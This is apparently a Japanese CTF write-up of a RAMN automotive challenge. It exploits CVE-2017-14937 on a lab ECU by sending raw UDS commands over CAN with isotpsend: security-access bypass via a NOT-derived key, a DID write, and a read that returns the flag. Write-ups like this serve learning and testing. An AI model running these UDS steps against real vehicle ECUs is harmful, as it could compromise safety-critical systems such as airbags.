 ## Writeup

解いた問題の雑writeupです。問題の原文をメモってなく、機械翻訳のものになります...

### RAMNカテゴリ

ECU CのUDS問題を2問解いた。

ECU Cが対応していたUDSサービスは以下。

```bash
% caringcaribou uds services 0x7e2 0x7ea

Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL
Supported service 0x11: ECU_RESET
Supported service 0x22: READ_DATA_BY_IDENTIFIER
Supported service 0x23: READ_MEMORY_BY_ADDRESS
Supported service 0x27: SECURITY_ACCESS
Supported service 0x2c: DYNAMICALLY_DEFINE_DATA_IDENTIFIER
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER
Supported service 0x3e: TESTER_PRESENT
```

DYNAMICALLY_DEFINE_DATA_IDENTIFIER (0x2c) は初見。

#### [C] CVE-2017-14937

> 0x1111に何かを書き込み、0x0000に何かを読みに行く。

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
💡方針

1. [CVE解説論文](https://www.researchgate.net/publication/321183727_Security_Evaluation_of_an_Airbag-ECU_by_Reusing_Threat_Modeling_Artefacts)に従ってSecurity Access突破（シードのNOT演算でキーが出るらしい）
2. `% echo "2E 11 11 AB CD" | isotpsend -s 7e2 -d 7ea can0` (DID 0x1111 に適当な値を書く)
3. `% echo "22 00 00" | isotpsend -s 7e2 -d 7ea can0` (DID 0x0000 から読む)

</aside>

```bash
# Diagnostics Session 0x04 に入る
% echo "10 04" | isotpsend -s 7e2 -d 7ea can0

# セキュリティアクセス (レベル5F)
% echo "27 5f" | isotpsend -s 7e2 -d 7ea can0
# => isotpdumpを眺めてると 5A 33 のシードが返却された
 
# 論文に従ってNOT演算
% python -c 'hex(0x5A33 - 0xFFFF)'
# => '-0xa5cc'

# A5 CC をキーとしてセキュリティアクセス突破
% echo "27 60 A5 CC" | isotpsend -s 7e2 -d 7ea can0

# DID 0x1111 に適当な値 (AB CD) を書く
% echo "2E 11 11 AB CD" | isotpsend -s 7e2 -d 7ea can0

# DID 0x0000 から読む
% echo "22 00 00" | isotpsend -s 7e2 -d 7ea can0
# => isotprecv -s 7e2 -d 7ea  can0
# ==> 62 00 00 62 68 7B 53 55 50 33 52 53 30 4E 49 63 7D
# ==> ASCIIデコードすると bh{SUP3RS0NIc}
```
